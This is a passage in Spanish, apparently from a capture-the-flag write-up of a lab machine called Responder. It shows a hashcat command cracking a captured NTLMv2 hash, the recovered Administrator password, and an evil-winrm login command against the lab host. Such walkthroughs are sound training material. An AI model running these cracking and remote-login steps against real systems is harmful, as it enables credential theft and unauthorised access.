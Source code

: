 El hash **NTLMv2** capturado se puede craquear utilizando **Hashcat** con el siguiente comando: `hashcat -m 5600 '<hash>' /usr/share/wordlists/rockyou.txt` 

![Responder yw4rf](responder-17.png)

Después de craquearlo, obtenemos las credenciales:

- **Usuario:** Administrator
- **Contraseña:** badminton

![Responder yw4rf](responder-18.png)

Con las credenciales, accedemos al sistema vía **WinRM** usando **Evil-WinRM**: `evil-winrm -i 10.129.28.111 -u Administrator -p badminton`

![Responder yw4rf](responder-19.png)
